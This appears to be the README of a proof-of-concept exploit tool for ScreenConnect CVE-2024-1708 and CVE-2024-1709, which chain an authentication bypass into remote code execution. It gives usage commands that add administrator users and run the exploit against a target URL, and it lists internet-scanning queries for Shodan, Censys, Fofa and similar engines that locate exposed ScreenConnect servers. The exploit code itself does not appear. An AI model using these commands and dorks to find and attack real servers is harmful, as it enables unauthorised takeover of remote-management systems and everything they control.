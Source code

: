 # How to use

I'm using `Python3.9`

```
pip install requests
# python check.py
python batchAdduser.py
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708 && CVE-2024-1709 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/c6d6a60e-433f-4f80-807d-dc7bc061cb96)

# Bug?NO!

When you encounter the following situation, it indicates that the site cannot be RCE through this script.  

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-RCE/assets/101872898/422f1228-d913-4296-9eea-9e0685489ad9)

The specific reasons can be found at:  

> https://screenconnect.product.connectwise.com/communities/1/topics/1653-whitelist-custom-extensions-in-65
>
> https://bishopfox.com/blog/connectwise-control-advisory
>
> https://www.connectwise.com/globalassets/media/documents/connectwisecontrolsecurityevaluationmatrix.pdf

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-RCE/assets/101872898/379191d2-862f-4a02-876f-850a771c1ddf)

If you can get a legal signature, please file issues, thank you very much.

# Cyberspace mapping statement

## Odin

```
services.modules.http.headers.server:"screenconnect"
```

## Zoomeye
```
app:"ScreenConnect Remote Management Software"
```

## Censys

```
services.http.response.headers:(key: `Server` and value.headers: `ScreenConnect`)
```

## Shodan

```
"Server: ScreenConnect"
```

## Hunter.how

```
product.name="ConnectWise ScreenConnect software"
```

## Fofa

```
app="ScreenConnect-Remote-Support-Software"
```

# Reference

https://www.connectwise.com/company/trust/security-bulletins/connectwise-screenconnect-23.9.8

https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc  

https://github.com/rapid7/metasploit-framework/pull/18870
